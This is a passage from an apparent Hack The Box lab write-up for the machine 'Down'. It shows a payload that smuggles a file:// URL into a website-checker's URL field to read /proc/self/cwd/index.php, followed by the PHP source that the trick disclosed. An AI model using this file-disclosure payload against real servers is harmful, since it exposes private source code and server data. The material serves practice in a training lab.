 ![](/img/htb_img/Down_img/img4.png)
This confirms we’re running under Apache as **www-data**, working directory `/var/www/html`, etc.

## Source code disclosure
With the same trick we can fetch the webroot file:
```bash
url=http:// file:///proc/self/cwd/index.php
```

Content:
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Is it down or just me?</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>

    <header>
        <img src="/logo.png" alt="Logo">
        <h2>Is it down or just me?</h2>
    </header>

    <div class="container">

<?php
if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' ) {
  echo '<h1>Is the port refused, or is it just you?</h1>
        <form id="urlForm" action="index.php?expertmode=tcp" method="POST">
            <input type="text" id="url" name="ip" placeholder="Please enter an IP." required><br>
            <input type="number" id="port" name="port" placeholder="Please enter a port number." required><br>
            <button type="submit">Is it refused?</button>
        </form>';
} else {
  echo '<h1>Is that website down, or is it just you?</h1>
        <form id="urlForm" action="index.php" method="POST">
            <input type="url" id="url" name="url" placeholder="Please enter a URL." required><br>
            <button type="submit">Is it down?</button>
        </form>';
```